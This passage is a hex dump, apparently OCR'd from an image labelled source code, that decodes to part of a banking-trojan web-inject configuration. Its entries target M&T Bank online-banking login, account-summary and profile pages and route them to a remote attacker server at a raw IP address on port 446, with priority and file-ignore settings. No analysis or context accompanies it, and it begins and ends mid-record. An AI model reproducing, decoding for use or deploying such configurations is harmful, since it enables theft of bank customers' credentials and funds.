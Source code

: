 39 35 36 34 2A 3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68
74 74 70 73 3A 2F 2F 31 30 34 2E 31 36 38 2E 32
36 2E 31 36 32 3A 34 34 36 2F 72 65 73 70 6F 6E
73 65 2F 72 63 72 64 2E 70 68 70 3F 73 3D 31 35
33 36 31 37 36 35 39 30 36 37 39 35 36 34 3C 2F
68 6C 3E 0A 3C 70 72 69 3E 31 30 30 3C 2F 70 72
69 3E 0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C 2F
64 69 6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D
3E 68 74 74 70 73 3A 2F 2F 6F 6E 6C 69 6E 65 62
61 6E 6B 69 6E 67 2E 6D 74 62 2E 63 6F 6D 2F 4C
6F 67 69 6E 2F 4D 54 42 53 69 67 6E 4F 6E 3C 2F
6C 6D 3E 0A 3C 68 6C 3E 68 74 74 70 73 3A 2F 2F
31 30 34 2E 31 36 38 2E 32 36 2E 31 36 32 3A 34
34 36 2F 72 65 73 70 6F 6E 73 65 2E 70 68 70 3F
73 3D 31 35 33 36 31 37 36 35 39 30 36 37 39 35
36 34 26 69 64 3D 36 69 6C 6F 61 30 6F 6B 4E 33
6F 49 64 6E 71 7A 4B 73 42 6F 3C 2F 68 6C 3E 0A
3C 70 72 69 3E 31 30 30 3C 2F 70 72 69 3E 0A 3C
73 71 3E 32 3C 2F 73 71 3E 0A 3C 69 67 6E 6F 72
65 5F 6D 61 73 6B 3E 2A 2E 6A 73 2A 3C 2F 69 67
6E 6F 72 65 5F 6D 61 73 6B 3E 0A 3C 69 67 6E 6F
72 65 5F 6D 61 73 6B 3E 2A 2E 63 73 73 2A 3C 2F
69 67 6E 6F 72 65 5F 6D 61 73 6B 3E 0A 3C 69 67
6E 6F 72 65 5F 6D 61 73 6B 3E 2A 2E 69 63 6F 2A
3C 2F 69 67 6E 6F 72 65 5F 6D 61 73 6B 3E 0A 3C
2F 64 69 6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C
6D 3E 68 74 74 70 73 3A 2F 2F 6F 6E 6C 69 6E 65
62 61 6E 6B 69 6E 67 2E 6D 74 62 2E 63 6F 6D 2F
3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74 70 73 3A
2F 2F 31 30 34 2E 31 36 38 2E 32 36 2E 31 36 32
3A 34 34 36 2F 72 65 73 70 6F 6E 73 65 2E 70 68
70 3F 73 3D 31 35 33 36 31 37 36 35 39 30 36 37
39 35 36 34 26 69 64 3D 77 4B 6C 4C 39 4A 54 59
36 52 52 6C 6C 54 74 54 61 77 63 30 3C 2F 68 6C
3E 0A 3C 70 72 69 3E 31 30 30 3C 2F 70 72 69 3E
0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C 69 67 6E
6F 72 65 5F 6D 61 73 6B 3E 2A 2E 6A 73 2A 3C 2F
69 67 6E 6F 72 65 5F 6D 61 73 6B 3E 0A 3C 69 67
6E 6F 72 65 5F 6D 61 73 6B 3E 2A 2E 63 73 73 2A
3C 2F 69 67 6E 6F 72 65 5F 6D 61 73 6B 3E 0A 3C
69 67 6E 6F 72 65 5F 6D 61 73 6B 3E 2A 2E 69 63
6F 2A 3C 2F 69 67 6E 6F 72 65 5F 6D 61 73 6B 3E
0A 3C 2F 64 69 6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A
3C 6C 6D 3E 68 74 74 70 73 3A 2F 2F 6F 6E 6C 69
6E 65 62 61 6E 6B 69 6E 67 2E 6D 74 62 2E 63 6F
6D 2F 41 63 63 6F 75 6E 74 73 2F 41 63 63 6F 75
6E 74 53 75 6D 6D 61 72 79 3C 2F 6C 6D 3E 0A 3C
68 6C 3E 68 74 74 70 73 3A 2F 2F 31 30 34 2E 31
36 38 2E 32 36 2E 31 36 32 3A 34 34 36 2F 72 65
73 70 6F 6E 73 65 2E 70 68 70 3F 73 3D 31 35 33
36 31 37 36 35 39 30 36 37 39 35 36 34 26 69 64
3D 6D 37 5A 48 4D 56 46 79 38 4F 30 51 48 30 63
49 30 42 72 6A 3C 2F 68 6C 3E 0A 3C 70 72 69 3E
31 30 30 3C 2F 70 72 69 3E 0A 3C 73 71 3E 32 3C
2F 73 71 3E 0A 3C 2F 64 69 6E 6A 3E 0A 3C 64 69
6E 6A 3E 0A 3C 6C 6D 3E 68 74 74 70 73 3A 2F 2F
6F 6E 6C 69 6E 65 62 61 6E 6B 69 6E 67 2E 6D 74
62 2E 63 6F 6D 2F 43 75 73 74 6F 6D 65 72 53 65
72 76 69 63 65 2F 4D 79 50 72 6F 66 69 6C 65 3C
2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74 70 73 3A 2F
2F 31 30 34 2E 31 36 38 2E 32 36 2E 31 36 32 3A
34 34 36 2F 72 65 73 70 6F 6E 73 65 2E 70 68 70
3F 73 3D 31 35 33 36 31 37 36 35 39 30 36 37 39
35 36 34 26 69 64 3D 46 4E 4C 61 58 70 70 52 6A
